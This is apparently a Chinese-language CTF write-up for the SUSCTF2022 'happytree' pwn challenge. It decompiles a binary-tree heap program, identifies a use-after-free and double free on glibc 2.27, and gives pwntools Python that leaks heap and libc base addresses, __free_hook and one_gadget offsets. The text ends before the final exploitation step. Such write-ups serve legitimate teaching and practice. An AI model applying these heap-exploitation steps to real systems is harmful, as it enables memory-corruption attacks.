

# SUSCTF2022-happytree

## 信息收集

- checksec

  ```
      Arch:     amd64-64-little
      RELRO:    Full RELRO
      Stack:    Canary found
      NX:       NX enabled
      PIE:      PIE enabled
  ```

- 用ida分析libc.so.6，查看libc版本

  ```
  glibc-2.27(1.2)
  ```

## 分析

使用ida64分析程序；

main()

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  __int64 v3; // rax
  int choice; // [rsp+0h] [rbp-10h] BYREF
  unsigned int data; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init_0();
  while ( 1 )
  {
    while ( 1 )
    {
      printMenu();
      std::istream::operator>>(&std::cin, &choice);
      if ( choice != 2 )
        break;
      data = getData();
      qword_2022A0 = (__int64)delete(qword_2022A0, (_QWORD *)qword_2022A0, data);
    }
    if ( choice > 2 )
    {
      if ( choice == 3 )
      {
        data = getData();
        show(qword_2022A0, qword_2022A0, data);
      }
      else
      {
        if ( choice == 4 )
          exit(0);
LABEL_13:
        v3 = std::operator<<<std::char_traits<char>>(&std::cout, "Invaild Command");
        std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
      }
    }
    else
    {
      if ( choice != 1 )
        goto LABEL_13;
      data = getData();
      qword_2022A0 = (__int64)insert(qword_2022A0, (tree *)qword_2022A0, data);
    }
  }
}
```

可以看到，程序主要就是insert、delete和show三个重要的函数；

通过insert()函数和调试来确定操作的数据内容；

```c
tree *__fastcall insert(__int64 a1, tree *myTree, unsigned int DATA)
{
  tree *v5; // [rsp+10h] [rbp-10h]

  v5 = myTree;
  if ( myTree )
  {
    if ( (signed int)DATA >= myTree->data )
    {
      if ( (signed int)DATA > myTree->data )
        myTree->next_big_data = (__int64)insert((__int64)myTree, (tree *)myTree->next_big_data, DATA);
    }
    else
    {
      myTree->next_small_data = (__int64)insert((__int64)myTree, (tree *)myTree->next_small_data, DATA);
    }
  }
  else
  {
    v5 = (tree *)operator new(0x20uLL);
    v5->data = DATA;
    v5->content = operator new[]((unsigned __int8)DATA);
    std::operator<<<std::char_traits<char>>(&std::cout, "content: ");
    read(0, (void *)v5->content, (unsigned __int8)DATA);
  }
  return v5;
}
```

通过初步分析，得到下列的大小为0x20的结构体；


由于输入的data(size)分别是2,1,3，所以会存在如下的布局。

data=1 < 2，因此被放置在了next_small_data的位置；而data=3 > 2，因此被放置在了next_big_data的位置。

当然这里能申请到的都是0x20大小的堆块，因为这是允许的最小的堆块，其中存储content。

insert()的大致流程图如下：



弄清楚insert()函数的流程和结构体的大致内容后，来看看delete()函数；

```c
_QWORD *__fastcall delete(__int64 a1, tree *myTree, unsigned int DATA)
{
  __int64 v4; // [rsp+10h] [rbp-20h]
  int *v5; // [rsp+20h] [rbp-10h]

  v4 = (__int64)myTree;
  if ( !myTree )
    return 0LL;
  if ( (signed int)DATA >= myTree->data )
  {
    if ( (signed int)DATA <= myTree->data )
    {
      if ( myTree->next_small_data && myTree->next_big_data )
      {
        v5 = (int *)sub_F72(a1, myTree->next_big_data);
        myTree->data = *v5;
        myTree->next_big_data = (__int64)delete(a1, (tree *)myTree->next_big_data, *v5);
      }
      else
      {
        if ( myTree->next_small_data )
        {
          if ( !myTree->next_big_data )
            v4 = myTree->next_small_data;
        }
        else
        {
          v4 = myTree->next_big_data;
        }
        operator delete((void *)myTree->content, 1uLL);		// 清空了tree->content指针所指的内容
        operator delete(myTree, 0x20uLL);
      }
    }
    else
    {
      myTree->next_big_data = (__int64)delete(a1, (tree *)myTree->next_big_data, DATA);
    }
  }
  else
  {
    myTree->next_small_data = (__int64)delete(a1, (tree *)myTree->next_small_data, DATA);
  }
  return (_QWORD *)v4;
}
```

大致的流程图如下：

[insert和delete的大致流程图放一起了](./未命名绘图.drawio.html)

那么问题出在哪里呢？在delete的时候，虽然删除了结构体，但是没有把指针清空，因此，指针依旧存在，这是一个UAF。介于这是glibc-2.27(1.2)，存在double free的问题；

## 泄露

由于tcache最大限度为7个bin的限制，多余的bin将会归纳到unsorted bin中，利用uaf来泄露heap_base的地址；


首先申请8个data为0x80~0x87的chunk，根据malloc.c的分配规则，自然是按照0x90大小来分配chunk。

```python
    for i in range(8):
        insert(0x80+i, "k1ose2jo")
```

下面是data为0x86的chunk的layout。


可以看到

- 0x30大小的chunk用来存放data、指向content的指针地址以及next_small_chunk和next_big_chunk；由于代码依次申请了data递增的chunk，所以都是存放在next_big_chunk的指针位置，其和next_small_chunk一样都是指向next chunk的data域，非content域；
- 0x90大小的chunk用来存放content的内容，这个大小根据data指定。

接着将申请到的chunk从大到小依次free掉；

```python
    for i in reversed(range(8)):
        delete(0x80+i)
```

下面是delete掉data为0x87的chunk后的layout；


可以看到：

- 清空了data和content，但依然存留了指向content的指针；
- 其父结点删除了右孩子（自己本身）；

接着是delete掉data为0x86的chunk后的layout；


可以看到：

- 被delete掉的4个chunk(2个0x30大小的chunk和2个0x90大小的chunk)被放在了tcache bins中；

  

直到delete掉最后一个chunk，也就是第8个chunk，0x30的chunk会因为大小满足fastbins而被放入fastbins中，而0x90大小的chunk会被放在unsortedbins中；


可以看到：

- unsortedbin是双向链表，因此可以看到，free掉的堆块中，fd和bk都指向了main_arena中的区域；
- 已知content指针没有被清空，而此时该位置覆盖的是bk，因此可以利用该uaf来泄露bk，即main_arena上的地址；

现在重新申请7个堆块；

```python
    for i in range(7):
        insert(0x80+i, "A")
```

下面是申请data为0x80的chunk后的layout；


可以看到：

- 位于0x55bf96737e90的大小为0x90的chunk没有被申请，因为程序优先将tcachebins中大小为0x90的chunk分配；

接着顺利申请7个chunk；

下面是data为84、85的chunk的layout；


- 可以看到content='A'直接覆盖到了原先fd的位置；

- 申请6个堆块后如下：

  

由此，如果`show(0x80)`的话，对应了位于0x55bf96737f20的chunk（其data为0x80，content地址为0x55bf96737f50），可以打印出一个最后两个bit被覆盖为'41'的堆上的地址，如图：


减去对应的偏移即可得到heap基地址；

```python
    # -- leak heap base
    show(0x80)

    p.recvuntil("content: ")
    heap_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x12041
    log.success("heap_base => " + hex(heap_base))
```

接着泄露libc基地址；

```python
    # -- leak libc_base
    insert(0x87, "babeface")
    show(0x87)
    p.recvuntil("babeface")
    malloc_hook = u64(p.recv(6).ljust(8,b'\x00')) - 112
    libc_base = malloc_hook - 0x00000000003ebc30
    free_hook = libc_base + 0x00000000003ed8e8
    log.success("__malloc_hook => " + hex(malloc_hook))
    log.success("libc_base => " + hex(libc_base))
    log.success("__free_hook => " + hex(free_hook))
```

这里借助`insert(0x86, "babeface")`申请掉最后一个tcachebins中的chunk，随后申请位于unsorted bin中的chunk；


可以看到，fd被新的content覆盖，而bk没有被清空，使用show(0x87)，即可得到该地址。利用main_arena和__malloc_hook之间相差0x10的关系，从而找到了libc_base，由此便可以得到其他的可利用函数地址；

```
[+] __malloc_hook => 0x7f1a7bf13c30
[+] libc_base => 0x7f1a7bb28000
[+] __free_hook => 0x7f1a7bf158e8
[+] one_gadget[0] => 0x7f1a7bb77365
[+] one_gadget[1] => 0x7f1a7bb773c2
[+] one_gadget[2] => 0x7f1a7bc3245c
```

## 利用

拿到了泄露出的地址，接下来需要进行利用。

前面获得了堆的地址(heap base)，
